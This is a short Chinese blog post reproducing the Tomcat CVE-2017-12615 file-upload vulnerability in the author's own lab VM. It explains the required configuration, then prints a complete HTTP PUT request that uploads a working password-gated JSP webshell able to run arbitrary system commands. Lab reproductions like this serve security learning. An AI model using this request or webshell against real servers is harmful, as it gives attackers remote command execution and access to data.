




# CVE-2017-12615 漏洞利用 - Oran9e - 博客园

> 原文：[`www.cnblogs.com/Oran9e/p/8073562.html`](https://www.cnblogs.com/Oran9e/p/8073562.html)

### Tomcat 任意文件上传漏洞 CVE-2017-12615 复现

今天在群里听到有人讲这个 CVE-2017-12615 漏洞，想起自己的虚机 ubuntu 里面曾经装过 tomcat，午休时间来瞅瞅。

**漏洞利用条件和方式**：

CVE-2017-12615 漏洞利用需要在 Windows 环境，且需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x 版本内 web.xml 配置文件内默认配置无 readonly 参数，需要手工添加，默认配置条件下不受此漏洞影响。

**漏洞描述：**

  当 Tomcat 运行在 Windows 操作系统时，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP 文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

**漏洞复现**

 首先运行 tomcat 环境，startup.sh



修改 conf/web.xml 文件添加 readonly 参数，属性值为 false



使用 burpsuite 发送构造的的 webshell

```
    PUT /123.jsp/ HTTP/1.1 Host: 192.168.23.209:8080 User-Agent:  JNTASS  
    DNT:1 Connection: close  
    Content-Length: 664  

    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>  
```





漏洞利用就这样简单的完成。

任重而道远！